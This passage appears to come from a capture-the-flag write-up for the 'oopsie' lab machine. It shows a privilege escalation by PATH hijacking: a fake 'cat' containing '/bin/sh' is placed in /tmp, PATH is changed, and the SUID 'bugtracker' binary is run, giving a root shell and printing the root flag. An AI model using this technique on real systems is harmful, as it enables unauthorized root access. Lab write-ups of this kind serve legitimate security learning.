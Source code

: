 We start [Privilege Escalation](../../../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md), we can create a malicious file in /tmp directory and change the PATH variable to hit it first, we'll do as follow :

```bash
robert@oopsie:/tmp$ echo '/bin/sh' > cat 
robert@oopsie:/tmp$ chmod +x cat 
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now we try to use **bugtracker** again :

```
robert@oopsie:/tmp$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 15
---------------

# whoami
root
# cd /root
# ls
reports  root.txt
# cat root.txt      
# less root.txt

af13b0bee69f8a877c3faf667f7beacf
```

Pwned !!